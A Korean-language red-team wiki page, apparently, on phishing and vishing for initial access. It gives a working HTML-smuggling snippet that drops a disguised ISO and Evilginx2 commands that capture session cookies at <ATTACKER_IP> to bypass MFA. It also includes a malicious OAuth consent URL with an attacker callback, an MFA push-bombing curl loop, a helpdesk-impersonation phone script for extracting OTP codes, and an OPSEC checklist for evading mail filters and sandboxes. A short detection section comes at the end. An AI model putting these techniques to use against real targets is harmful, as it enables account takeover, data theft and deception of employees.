

# Phishing / Vishing

레드팀 lifecycle에서 초기 침투 시 가장 많이 쓰는 벡터.
흐름은 대충 이렇게 돈다: **infra 구축 → 시나리오 설계 → 전송 → landing / credential 수집 / payload 실행**.

---

## 공격 infra 구축



- **Domain categorization**: 새로 산 domain은 Proofpoint / Palo Alto 등에서 "Uncategorized" 로 잡혀 거의 다 블록된다. 최소 2~4주간 cronjob으로 정상 트래픽 돌리거나 가짜 블로그 올려서 reputation 쌓거나, expired domain 사서 기존 카테고리 재활용하는 방식.
- **SMTP / mail infra**: SPF / DKIM / DMARC 전부 pass 되게 구성. Mailgun, SendGrid, 아니면 직접 Postfix + OpenDKIM.
- **Redirector**: Apache mod_rewrite 또는 nginx reverse proxy 앞단에 세워서 C2 IP 직노출 막는다. User-Agent / URI 기반으로 sandbox나 blue team 트래픽은 404로 털어낸다.
- **Domain 선정**: target 회사/브랜드 비슷한 철자 (homoglyph, typosquatting) 또는 `corp-support`, `hr-policy` 같이 신뢰감 주는 키워드.

---

## 시나리오 분류

| 시나리오 | 목적 | Payload |
|---|---|---|
| Credential Harvesting | 계정 탈취 (O365 / VPN / SSO) | evilginx proxy, fake login page |
| Malicious Attachment | endpoint 실행 | HTA, LNK, ISO, VBA macro, OneNote |
| Malicious Link | browser / drive-by | HTML Smuggling, MSIX, ClickOnce |
| Consent Phishing (OAuth) | Azure AD token 탈취 | illicit consent grant app |
| MFA Fatigue / Push Bombing | MFA 우회 | push 반복 요청 |
| Vishing | session cookie / OTP 탈취 | helpdesk 사칭 |

---

## HTML Smuggling

브라우저 내부에서 JS로 파일을 재구성해서 network-level MIME 검사 우회.

```html
<script>
  const data = atob("TVqQAA..."); // base64(encoded.iso)
  const bytes = new Uint8Array(data.length);
  for (let i=0; i<data.length; i++) bytes[i] = data.charCodeAt(i);
  const blob = new Blob([bytes], {type:'application/octet-stream'});
  const a = document.createElement('a');
  a.href = URL.createObjectURL(blob);
  a.download = 'invoice.iso';
  a.click();
</script>
```

- ISO / IMG / VHD 는 Mark-of-the-Web (MotW) 를 안에 담긴 파일로 **전파 안 했던** 컨테이너. 그래서 내부 LNK / HTA 가 SmartScreen 우회 가능했음. 2022 후반 MS 패치로 일부 막혔다.

---

## GoPhish (대량 캠페인 관리)

```bash
# 설치
docker run -d -p 3333:3333 -p 80:80 -p 443:443 gophish/gophish

# 구성 순서
# 1. Sending Profile : SMTP Relay (Mailgun)
# 2. Landing Page    : capture한 O365 / SSO 로그인 페이지
# 3. Email Template  : {{.FirstName}} 변수로 개인화
# 4. User Group      : OSINT 로 수집한 users.txt upload
# 5. Campaign 시작 → 대시보드에서 click / credential 확인
```

---

## Evilginx2 (AiTM - MFA Bypass)

```bash
# Phishlet 로드
evilginx2 -p ./phishlets/
config domain phish-o365.com
config ipv4 <ATTACKER_IP>
phishlets hostname o365 phish-o365.com
phishlets enable o365
lures create o365
lures get-url 0
# → 생성된 URL 을 피해자에게 전달.
#   피해자가 정상 로그인하면 session cookie 가 공격자 쪽으로 넘어오고 MFA 는 우회됨.
```

!!! warning "MFA 가 왜 뚫리는지"
    Evilginx 는 AiTM (Adversary-in-the-Middle) proxy 로 동작. 피해자의 실제 IdP 세션을 그대로 통과시키고, **인증 완료 후의 session cookie** (`ESTSAUTHPERSISTENT` 등) 만 가져간다. 공격자가 브라우저에 cookie 만 주입하면 MFA 재인증 없이 로그인된다.

---

## Consent Phishing (OAuth App)

Azure AD 에서 사용자 **동의**만으로 악성 앱이 `Mail.Read`, `Files.Read.All` 권한을 먹는 방식.

```
# 악성 앱 등록 후 consent URL 을 피해자에게 전달
https://login.microsoftonline.com/common/oauth2/v2.0/authorize?
    client_id=<APP_ID>&
    response_type=code&
    redirect_uri=<ATTACKER_CALLBACK>&
    scope=offline_access%20Mail.Read%20Files.Read.All%20User.Read
```

- 피해자가 Accept 한 번 누르면 refresh_token 이 넘어옴 → mail / OneDrive 상시 조회 가능.
- 탐지: Azure AD Sign-in Logs 의 `Consent to application` 이벤트, Microsoft 365 Defender alert policy.

---

## MFA Fatigue / Push Bombing

```bash
# credential 은 이미 확보된 상태.
# push 를 계속 쏴서 피해자가 귀찮아서 "승인" 누르게 만든다.
while true; do
    curl -s -X POST https://login.microsoftonline.com/... # MFA push 트리거
    sleep 30
done
```

- Microsoft Authenticator 의 **Number Matching** 이 켜져 있으면 이 방식은 안 통한다.

---

## Vishing (전화 사칭)

1. IT helpdesk 사칭 → AnyDesk / TeamViewer 설치 유도
2. 내부 내선번호 spoofing (SpoofCard, VoIP Asterisk)
3. MFA 코드를 "방금 보낸 보안 코드 확인 좀 해주세요" 식으로 유도

```
[대본 예시]
"안녕하세요, IT 보안팀 김OO 대리입니다.
방금 귀하의 계정에서 비정상 로그인이 탐지되어 검증이 필요합니다.
지금 받으신 6자리 코드를 불러주시면 차단 해제해드리겠습니다."
```

---

## 클라이언트 측 실행

- **LNK + PowerShell + AMSI Bypass** — [AMSI Bypass](../evasion/index.md#amsi-bypass) 참고
- **OneNote (.one)** — Embedded File 로 HTA / CHM / WSF 실행
- **MSI / MSIX** — 서명된 installer 안에 payload 삽입
- **ClickOnce (.application)** — .NET loader, Defender 회피용으로 자주 씀
- **SVG Smuggling** — SVG 내부 `<script>` 로 HTML smuggling. Outlook web view 에서 렌더링됨

---

## OPSEC checklist

- [ ] Domain WHOIS 에 privacy guard 적용 (Namecheap Whoisguard 등)
- [ ] SPF / DKIM / DMARC 전부 정합 (`mail-tester.com` 10/10)
- [ ] Redirector 에 User-Agent 필터 (Proofpoint, Mimecast, Windows Defender 차단)
- [ ] C2 domain 은 TLS cert (Let's Encrypt) + CDN (domain fronting 가능한 곳) 앞단
- [ ] 캠페인은 target 국가 업무시간 내에 실행 (로그 묻힘)

---

## 탐지 / 방어측 참고

- Defender for Office 365 의 Safe Links / Safe Attachments → URL 재작성, sandbox 에서 detonation
- Proofpoint TAP / Mimecast 는 첨부 detonation + URL Time-of-Click 검증
- EDR 의 child process 탐지: `WINWORD.EXE → powershell.exe` 는 거의 100% 잡힘
- Azure AD Risky Sign-In: 신규 국가 / impossible travel → Conditional Access 로 바로 차단

---

## 참고

- Infra: [C2 Infrastructure](../infra/c2.md), [File Transfer](../infra/file-transfer.md)
- MFA 우회 상세: [Web - 2FA/MFA Bypass](../web/index.md#2famfaotp-bypass-패턴)
- OSINT: [OSINT / External Recon](osint.md)
